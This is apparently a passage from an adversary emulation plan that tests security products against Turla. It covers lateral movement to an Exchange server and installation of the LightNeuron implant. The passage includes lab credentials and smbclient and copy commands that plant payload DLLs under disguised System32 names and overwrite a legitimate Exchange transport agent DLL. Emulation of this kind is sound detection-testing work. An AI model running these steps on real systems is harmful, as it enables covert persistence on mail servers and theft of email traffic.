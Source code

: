 ### :microscope: Cited Intelligence

* TBD

## Test 13: Lateral Movement to Exchange Server and LightNeuron Capabilities

:microphone: `Voice Track:`

Test 13 emulates Turla laterally moving to the Exchange server, installing the LightNeuron implant there, 
and sending several discovery commands to the LightNeuron implant and collecting and exfiltrating email traffic. 

---

### :biohazard: Procedures

:arrow_right: Start a new RDP session to `drebule (10.100.30.203)` as `ZilvinasAdmin`:

| Username   | Password |
| :--------: | :---------------: |
| nk\ZilvinasAdmin  | Producer2! |

:arrow_right: Return to your Kali C2 server

* In your Kali terminal window, copy the LightNeuron files to `uosis`
```bash
sudo smbclient -U 'nk\ZilvinasAdmin'%'Producer2!' //10.100.40.102/c$ -c 'put /opt/day2/turla/Resources/payloads/snake/ln_transport_agent.dll Windows\System32\mtxconf.dll'
sudo smbclient -U 'nk\ZilvinasAdmin'%'Producer2!' //10.100.40.102/c$ -c 'put /opt/day2/turla/Resources/payloads/snake/n_installer_aux.dll Windows\System32\mtxcli.dll'
sudo smbclient -U 'nk\ZilvinasAdmin'%'Producer2!' //10.100.40.102/c$ -c 'put /opt/day2/turla/Resources/payloads/snake/msiex.ps1 Windows\System32\msiex.ps1'
sudo smbclient -U 'nk\ZilvinasAdmin'%'Producer2!' //10.100.40.102/c$ -c 'put /opt/day2/turla/Resources/payloads/snake/rules.xml Windows\System32\wdr.rules.xml'
sudo smbclient -U 'nk\ZilvinasAdmin'%'Producer2!' //10.100.40.102/c$ -c 'put /opt/day2/turla/Resources/payloads/snake/winmail.dat Windows\System32\perfe009.dat'
```

:arrow_right: Return to your RDP session to `uosis (10.100.40.102)` as `Zilvinas`

* Open File Explorer and browse to `C:\Windows\System32`. Order files by date.

* Start an elevated command prompt. When prompted for credentials, use:

| Username   | Password |
| :--------: | :---------------: |
| nk\ZilvinasAdmin  | Producer2! |

* In the elevated cmd prompt, run the following commands to copy LightNeuron files. After each command, check your RDP session to `drebule (10.100.30.203)` to look for any indicators of blocked vendor activity.
```bat
copy C:\Windows\System32\mtxconf.dll "\\drebule\C$\Program Files\Microsoft\Exchange Server\V15\TransportRoles\agents\Hygiene\Microsoft.Exchange.Transport.Agent.ConnectionFiltering.dll"
```

